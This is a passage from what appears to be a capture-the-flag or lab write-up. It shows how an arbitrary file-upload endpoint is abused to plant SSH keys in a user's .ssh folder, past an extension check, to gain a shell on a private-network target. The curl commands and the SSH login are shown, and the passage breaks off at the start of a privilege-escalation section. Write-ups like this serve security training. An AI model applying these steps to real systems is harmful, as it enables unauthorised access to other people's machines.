 Since we have read/write access to `alfredo`’s home, we also can write to his `.ssh` folder. On our local kali box we can create some quick ssh keys and upload them to his `.ssh` folder. With those there we can use the ssh keys to login as `alfredo`

```bash
ssh_keygen
```

I will then change the extensions to ensure they match the extension check.

```bash
mv id_rsa id_rsa.txt
mv id_rsa.pub id_rsa.pub.txt
```

Then we can use our curl trick to upload them. I will uploadthe id_rsa.txt file into `.ssh/id_rsa` and `.ssh/authorized_keys` as well as id_rsa.pub.txt to `.ssh/id_rsa.pub` 

```bash
┌──(kali㉿kali)-[~/.ssh]
└─$ curl -F 'filename=/home/alfredo/.ssh/id_rsa' -F 'file=@id_rsa.txt' 192.168.156.249:33414/file-upload
{"message":"File successfully uploaded"}
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/.ssh]
└─$ curl -F 'filename=/home/alfredo/.ssh/authorized_keys' -F 'file=@id_rsa.pub.txt' 192.168.156.249:33414/file-upload
{"message":"File successfully uploaded"}
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/.ssh]
└─$ curl -F 'filename=/home/alfredo/.ssh/id_rsa.pub' -F 'file=@id_rsa.pub.txt' 192.168.156.249:33414/file-upload
{"message":"File successfully uploaded"}
                                             
```

With these files uploaded we should theoretically be able to ssh into the machine.

```bash
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh alfredo@192.168.156.249 -p 25022 -i id_rsa.txt                                                                                                                                            
Last login: Tue May  6 12:35:34 2025 from 192.168.45.229
[alfredo@fedora ~]$
```

And boom. Huston, we have a foothold!

# Privilege Escalation

---

Priv esc for this box is pretty straightforward. During my initial manual enumeration I found this cronjob run by root every minute
